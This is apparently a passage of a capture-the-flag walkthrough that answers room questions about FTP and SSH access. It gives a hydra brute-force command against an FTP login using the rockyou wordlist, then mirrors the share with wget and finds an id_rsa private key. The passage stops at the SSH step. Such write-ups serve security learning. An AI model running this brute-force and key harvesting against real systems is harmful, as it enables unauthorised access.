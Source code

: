 ## Credentials

Inside the `note.txt` file we have a message:

```
@vill

James new ftp username: *****
we have to work hard
```

### ftp user name?

In the note

### ftp password?

Time for some `hydra`

Use the following syntax `hydra -l USER_FROM_NOTE -P rockyou.txt IP ftp -V -f -t 15` obviously, you will have to replace the options that are specific to you. Sometimes it reducing the number of threads to maybe 4 works better. See for yourself.

Now that we have the password, lets login! 

```
ftp> ls

drwxr-xr-x    2 0        0            4096 Jul 13 21:16 data-1
drwxr-xr-x    2 0        0            4096 Jul 13 21:17 data-10
drwxr-xr-x    2 0        0            4096 Jul 13 21:16 data-2
drwxr-xr-x    2 0        0            4096 Jul 13 21:16 data-3
drwxr-xr-x    4 0        0            4096 Jul 14 18:05 data-4
drwxr-xr-x    2 0        0            4096 Jul 13 21:16 data-5
drwxr-xr-x    2 0        0            4096 Jul 13 21:17 data-6
drwxr-xr-x    2 0        0            4096 Jul 13 21:17 data-7
drwxr-xr-x    2 0        0            4096 Jul 13 21:17 data-8
drwxr-xr-x    2 0        0            4096 Jul 13 21:17 data-9
```
That's a massive directory listing, lets just get it all with 
`wget -r ftp://[user]:[password]@IP/`

now lets look for all the files, we can use `find` to achieve this.

`cd IP; find . -type f`
```
./data-4/id_rsa
./data-4/not.txt
./.bash_logout
./.profile
./.bashrc
```
Very interesting listing!

### ssh username?
